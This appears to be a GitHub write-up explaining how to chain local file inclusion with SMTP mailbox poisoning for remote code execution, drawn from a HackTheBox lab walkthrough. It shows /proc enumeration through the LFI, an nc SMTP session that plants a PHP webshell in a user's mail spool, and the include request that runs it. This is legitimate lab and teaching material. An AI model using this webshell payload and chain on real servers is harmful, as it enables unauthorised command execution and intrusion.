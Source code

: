 # LFI-and-SMTP-gives-RCE

> SMTP  poisoning

## technique

The following are necessary to achieve RCE

1. The server must have SMTP capability
2. The service with the LFI vulnerability must be running as a user who can read mail
3. The service with LFI must have a way to execute code, such as a php website.


## procedure

The following procedure was created by analysing ippsec's run through of the Trick HackTheBox machine. Subscribe to ippsec, watch on youtube.

>  [inspiration of post | Trick.htb | subscribe to ippsec](https://www.youtube.com/watch?v=ai98umjeO8M)

The procedure consists of

1. identifying that the webserver has read permission on a SMTP mailbox
2. send mail to the mailbox, include a php payload as data. 
3. use LFI to detonate the php payload


### read permission on mail

First we identify the user running the webservice. This is done via the LFI and via the `/proc` file system.  

> note that the header `Range: bytes=200-1000` should be added before trying to include things from `/proc`

We enumerate the following files

- `/proc/self/environ`
- `/proc/self/cmdline`

We discover that on `trick.htb` the webserver is running as `michael`. With SMTP running on the server, local users such as `michael` will have a mailbox at `/var/spool/mail/michael`, a file appended with mail messages. 


### send mail 

The following commands are sent to the server in order to send the php payload. Commented lines are server responses

```bash
nc -v trick.htb 25
ehlo trick.htb
# 250 2.1.0 OK
mail from: <ippsec@trick.htb>
rcpt to:michael
data
# 354 End data with <CR><LF>.<CR><LF> 
subject: Please Subscribe to ippsec

<?php system($_GET['cmd']); ?>
.

# 250 2.0.0 OK: queued as 7D46C4099C
```


Note that 

- `rcpt to:` field is not as we expect. Above is how SMTP can send mail locally. `<michale@trick.htb>` fails on this lab machine. 
- `# 354 End data with <CR><LF>.<CR><LF> ` means that we end the `data` with `ENTER` `.` `ENTER` input


### use LFI to detonate the payload

With the payload delivered, we can detonate via our LFI:

```bash
...//var/spool/mail/michael&cmd=id
```


## summary

With exposed SMTP and no authentication, we can write arbitrary text files to the server. Subject to character limit and the presence of a mailbox. We use this to write a webshell to a readable mailbox. The php LFI is then used to include our webshell, which is interpreted by the server, granting us RCE. 